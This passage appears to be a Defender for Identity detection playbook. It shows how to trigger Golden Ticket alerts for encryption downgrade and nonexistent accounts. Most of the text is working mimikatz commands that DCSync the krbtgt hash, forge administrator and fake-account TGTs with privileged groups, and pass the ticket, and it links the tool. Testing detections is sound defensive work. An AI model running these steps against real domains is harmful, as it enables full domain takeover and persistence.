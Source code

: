 ## Suspected Golden Ticket usage (encryption downgrade) & (nonexistent account) & (Time anomaly)

For details about this alert, see [Suspected Golden Ticket usage (encryption downgrade) (external ID 2009)](domain-dominance-alerts.md#suspected-golden-ticket-usage-encryption-downgrade-external-id-2009), [Suspected Golden Ticket usage (nonexistent account) (external ID 2027)](domain-dominance-alerts.md#suspected-golden-ticket-usage-nonexistent-account-external-id-2027), and [Suspected Golden Ticket usage (time anomaly) (external ID 2022)](domain-dominance-alerts.md#suspected-golden-ticket-usage-time-anomaly-external-id-2022).

Defender for Identity can detect six types of Golden Ticket attacks. Let's see two of them.

Using the krbtgt's password hash from the DCsync attackers can now create a Kerberos ticket granting ticket (TGT) that provides authorization to any resource and set the ticket expiration to any arbitrary time. This fake TGT is called a "Golden Ticket" and allows attackers to achieve network persistence.  

From a command line on a workstation, run with a local admin account:  

`mimikatz # privilege::debug`
`mimikatz # lsadump::dcsync /domain:msdemo.local /user:krbtgt`  => to get the krbgt's password hash needed for the /rc4
`mimikatz # Kerberos::golden /domain:msdemo.local /sid:S-1-5-21-4112553867-xxxxxxxxxxxx /rc4:xxxxxxxxxxxxxxx /user:administrator /id:500 /groups:513,512,520,518,519 /ticket:administrator.kirbi` => create a fake TGT for the default administrator account (RID=500) and add sensitive RID groups  
`mimikatz # kerberos::ptt administrator.kirbi` => load the fake TGT  
`mimikatz # misc::cmd` => open a cmd  
`klist` => check if the TGT is loaded  
`ldp.exe` => then bind (digest) to an LDAP server to use the fake TGT for encryption downgrade detection

`mimikatz # privilege::debug`
`mimikatz # lsadump::dcsync /domain:msdemo.local /user:krbtgt` => to get the krbgt's password hash needed for the /rc4:...  
`mimikatz # Kerberos::golden /domain:msdemo.local /sid:S-1-5-21-4112553867-xxxxxxxxxxxx /rc4:xxxxxxxxxxxxxxx /user:XYZ /id:500 /groups:513,512,520,518,519,1107 /ticket:XYZ.kirbi` => create a fake TGT for the nonexistent account and add sensitive RID groups (valid for 2àmn)
`mimikatz # kerberos::ptt XYZ.kirbi` => load the fake TGT
`klist` => check if the TGT is loaded
`ldp.exe` => then bind (digest) to an LDAP server to use the fake TGT for nonexistent account detection  

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

Detail in the alert:  
